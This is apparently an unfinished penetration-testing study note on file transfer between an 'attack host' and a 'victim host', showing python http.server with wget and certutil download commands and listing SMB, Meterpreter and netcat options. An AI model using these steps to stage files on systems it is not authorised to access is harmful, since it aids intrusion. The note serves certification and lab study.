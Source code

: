 # TODO
* htba file transfers modult nezzuk meg
* ejpt repobol nezzuk meg a methodokat
# Basic file transfer methods
## Base64 encode - decode - copy/paste between machines
* Base64 encoding data on source machine
* Copy-pasting base64 string from source machine to dest machine
* Base64 decoding on destination machine (+ redirect output to file)
## HTTP file transfer
### From Attack host to Victim host (Linux)
* python web server + wget
<pre>
<b># attack machine</b>
$ python -m http.server 8000
<b># victim machine</b>
$ wget http://10.10.10.2:8000/file.txt
</pre>
### From Attack host to Victim host (Windows)
* python web server + powershell iwr
* python web server + certutil
<pre>
<b># attack machine</b>
$ python -m http.server 8000
<b># victim machine</b>
C:\> certutil -urlcache -split -f http://10.10.10.2:8000/file.txt
</pre>
### From Victim host (Linux) to Attack host
* python web server + wget
### From Victim host (Windows) to Attack host
????
### Alternatives for tools
* alternatives for python: python3, python2.7, php, perl, ruby, ...
* alternatives for wget: curl, powershell iwr, certutil
## SMB file transfer
## SCP file transfer
## Meterpreter file transfer
## Other solutions
* RDP mounted drive
* HTTP file upload server hosted on attack machine + power shell client script
* Netcat pipes + redirect
* FTP
